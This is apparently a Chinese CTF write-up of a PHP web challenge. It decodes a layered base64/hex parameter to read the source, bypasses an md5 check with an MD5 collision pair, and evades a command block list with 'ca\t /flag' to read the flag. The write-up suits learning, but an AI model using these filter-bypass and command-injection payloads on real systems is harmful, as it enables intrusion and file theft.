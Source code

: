 ![](<./img/Pasted image 20221118110609.png>)

---
首页长这样

![](<./img/Pasted image 20221118110637.png>)

自动跳转到了这个url
```php
/index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=
```

---
`img`参数的值可能经过了`base64`编码

![](<./img/Pasted image 20221118112321.png>)

![](<./img/Pasted image 20221118112331.png>)

似乎还是套娃编码

---
首页提示`md5 is funny ~`，就这么被带偏了，以为最后这串是md5，结果想解密提示格式都不对，绕了好久才发现这原来是个简单的16进制编码

![](<./img/Pasted image 20221118112610.png>)

---
搞懂了`img`参数的编码，尝试逆用这一点获取`index.php`的文件内容
```php
/index.php?img=TmprMlpUWTBOalUzT0RKbE56QTJPRGN3&cmd=
```

![](<./img/Pasted image 20221118112846.png>)
```php
<?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');
$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));

$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
    echo '<img src ="./ctf3.jpeg">';
    die("xixi～ no flag");
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "<img src='data:image/gif;base64," . $txt . "'></img>";
    echo "<br>";
}
echo $cmd;
echo "<br>";
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}
```

---
ctf3.jpeg（~~充满恶意~~嘲讽拉满）

![](<./img/Pasted image 20221118113435.png>)

---
![](<./img/Pasted image 20221118190742.png>)

如上，由于对`POST`参数进行了向`string`类型的强制类型转换，而`php`默认行为并非对数组及其各个元素进行向字符串的转换，而是直接返回`'Array'`，因此第一个比较的结果便为假，削减了利用数组绕过`md5`的可行性

这里的`md5`需要通过强碰撞绕过

~~在网上找现成的强碰撞`payload`找了半天呜呜呜~~

```php
a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

这里还踩了一个坑，就是`POST`要加一个`Content-Type`头，并将值设为`application/x-www-form-urlencoded`，告诉服务器这段`POST`数据已经`url`编码过了

---
然后是`cmd`参数的构造，这个题的绕过还是比较氵的
```php
cmd=ca\t /flag
```
原理大致就是，对于`preg_match`来说，`\t`被转义成了横向制表符，因而没有被过滤；而对于`sh`来说，`\t`被解析为`t`，因此`payload`依然被作为`cat /flag`执行

#Web #md5 #PHP #bypass #shell #encoding